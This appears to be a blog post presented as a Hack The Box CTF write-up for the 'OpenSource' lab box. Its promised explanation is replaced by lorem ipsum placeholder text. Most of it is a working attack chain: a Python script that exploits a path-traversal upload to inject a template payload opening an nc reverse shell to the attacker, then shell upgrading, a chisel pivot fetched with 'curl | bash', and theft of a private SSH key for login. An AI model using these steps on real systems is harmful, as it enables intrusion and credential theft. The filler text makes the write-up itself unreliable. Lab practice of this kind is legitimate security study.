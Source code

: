 +++
title = "First HTB CTF: OpenSource"
date = 2022-05-30

[taxonomies]
categories = ["htb"]
+++

This weekend I hacked my way through my first Hack The Box CTF. This was an exciting/frustrating and enlightening experience. This writeup will cronicle how I hacked the box, and some of the interestings things I learned on the way.

<!-- more -->
Ut luctus dolor ut tortor hendrerit, sed hendrerit augue scelerisque. Suspendisse quis sodales dui, at tempus ante. Nulla at tempor metus. Aliquam vitae rutrum diam. Curabitur iaculis massa dui, quis varius nulla finibus a. Praesent eu blandit justo. Suspendisse pharetra, arcu in rhoncus rutrum, magna magna viverra erat, eget vestibulum enim tellus id dui. Nunc vel dui et arcu posuere maximus. Mauris quam quam, bibendum sed libero nec, tempus hendrerit arcu. Suspendisse sed gravida orci. Fusce tempor arcu ac est pretium porttitor. Aenean consequat risus venenatis sem aliquam, at sollicitudin nulla semper. Aenean bibendum cursus hendrerit. Nulla congue urna nec finibus bibendum. Donec porta tincidunt ligula non ultricies.

```python
import requests

# set ip addresses 
target = '10.10.11.164'
attacker = '10.10.14.48'
# attacker = '10.0.2.15'

# build payload for reverse shell
command = f'nc {attacker} 4444 -e /bin/sh'

headers = {
    'Host': target,
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://10.10.11.164',
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundarySHIrKoubQdZqALfJ',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://10.10.11.164/upcloud',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}

# rewrite a template file by exploting the relative path
target_overwrite = '//app/app/templates/index.html'

# build template with injected python to access shell
# PS: use codepoint \u007b and \u007d
data = f'''------WebKitFormBoundarySHIrKoubQdZqALfJ
Content-Disposition: form-data; name="file"; filename="{target_overwrite}"
Content-Type: application/octet-stream


<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>@drbh</title>
<body>
<pre>
hello 

\u007b\u007b self.__init__.__globals__.__builtins__.__import__('os').system('{command}') \u007d\u007d
</pre>
</body>
</html>
------WebKitFormBoundarySHIrKoubQdZqALfJ--
'''
# send request
response = requests.post(f'http://{target}/upcloud', headers=headers, data=data, verify=False)
# print(response)
# print(response.text)

# load page to do remote execution
# PS: should be running reverse shell listener like: ncat -lvp 4444
try:
    requests.get(f'http://{target}/', timeout=1)
except:
    pass
```


python -c 'import pty; pty.spawn("/bin/ash")'

ctrl-z
stty raw -echo
stty raw -echo; fg


Pivot


```
## client
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_386.gz
ncat -lvp 8888 < chisel_1.7.7_linux_386.gz
nc 10.10.14.46 8888 > chisel.gz
gzip -d chisel.gz
chmod +x chisel
chisel client 10.10.14.46:7000 R:3000:10.10.11.164:3000


## server
curl https://i.jpillora.com/chisel! | bash
chisel server -p 7000 --reverse -v
```


```
git --no-pager log --decorate=short -3 --stat

git --no-pager diff a76f8f75f7a4a12b706b0cf9c983796fa1985820 -- app/.vscode/settings.json
```


curl http://localhost:3000/dev01/home-backup/raw/branch/main/.ssh/id_rsa > sshkey.pem


ssh -i sshkey.pem dev01@10.10.11.164